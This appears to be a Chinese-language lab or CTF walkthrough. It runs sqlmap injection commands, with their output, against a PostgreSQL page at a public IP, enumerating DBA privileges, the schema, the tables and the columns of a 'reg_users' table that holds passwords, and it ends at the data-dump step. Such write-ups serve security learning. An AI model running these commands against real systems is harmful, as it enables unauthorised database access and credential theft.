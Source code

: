 ```bash
┌──(root💀kali)-[~/hackbar]
└─# sqlmap -u http://219.153.49.228:44677/new_list.php?id=1 -privileges --level 3
database management system users privileges:
[*] postgres (administrator) [2]:
    privilege: createdb
    privilege: super
┌──(root💀kali)-[~/hackbar]
└─# sqlmap -u http://219.153.49.228:44677/new_list.php?id=1 --is-dba --level 3
[12:56:40] [INFO] testing if current user is DBA
current user is DBA: True

```
查看当前数据库
```bash
┌──(root💀kali)-[~/hackbar]
└─# sqlmap -u http://219.153.49.228:44677/new_list.php?id=1 --current-db --batch
[13:12:38] [INFO] the back-end DBMS is PostgreSQL
back-end DBMS: PostgreSQL
[13:12:38] [INFO] fetching current database
[13:12:38] [WARNING] on PostgreSQL you'll need to use schema names for enumeration as the counterpart to database names on other DBMSes
current database (equivalent to schema on PostgreSQL): 'public'
[13:12:38] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/219.153.49.228'
[13:12:38] [WARNING] your sqlmap version is outdated

```
查看数据表
```bash
┌──(root💀kali)-[~/hackbar]
└─# sqlmap -u http://219.153.49.228:44677/new_list.php?id=1 -D public --tables
Database: public
[2 tables]
+-----------+
| notice    |
| reg_users |
+-----------+

[13:17:46] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/219.153.49.228'
[13:17:46] [WARNING] your sqlmap version is outdated

```
查看字段
```bash
┌──(root💀kali)-[~/hackbar]
└─# sqlmap -u http://219.153.49.228:44677/new_list.php?id=1 -D public -T reg_users --columns
Database: public
Table: reg_users
[4 columns]
+----------+---------+
| Column   | Type    |
+----------+---------+
| id       | int4    |
| name     | varchar |
| password | varchar |
| status   | int4    |
+----------+---------+

```
获取数据
```bash
┌──(root💀kali)-[~/hackbar]
```
